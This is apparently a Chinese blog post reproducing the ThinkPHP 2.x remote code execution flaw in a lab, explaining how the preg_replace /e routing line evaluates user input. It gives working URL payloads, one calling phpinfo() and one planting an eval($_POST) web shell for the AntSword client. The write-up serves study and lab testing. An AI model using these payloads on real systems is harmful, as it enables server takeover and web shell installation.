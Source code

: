 ```yaml
---
title: ThinkPHP 2.x 任意代码执行漏洞
date: 2020-06-13 15:48:27
categories: 漏洞复现
tags: ThinkPHP
---
```


#### 背景

ThinkPHP 2.x版本中，使用`preg_replace`的`/e`模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

<!--more-->

#### 复现过程

1.使用如下POC可查看phpinfo信息

`http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D`

![](http://cdn.laohuan.art/2020-06-13_15-57-09.png)

2.使用蚁剑连接

`http://IP:8080/index.php?s=/index/index/name/${@print%28eval%28$_POST[1234]%29%29}`

![](http://cdn.laohuan.art/2020-06-13_16-15-37.png)

3.url编码

* %7B: {
* %7D: }
* %28: (
* %29: )

#### 参考链接

<https://github.com/vulhub/vulhub/tree/master/thinkphp/2-rce/>